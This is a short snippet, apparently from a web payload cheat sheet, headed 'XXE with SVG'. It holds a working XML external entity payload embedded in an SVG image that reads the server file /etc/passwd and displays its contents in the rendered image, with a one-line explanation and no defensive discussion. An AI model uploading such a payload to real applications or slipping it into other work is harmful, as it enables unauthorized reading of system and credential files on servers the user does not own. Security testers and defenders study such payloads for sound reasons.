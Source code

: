 #### XXE with SVG
```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text>
</svg>
```
This displays the results in rendered svg image.
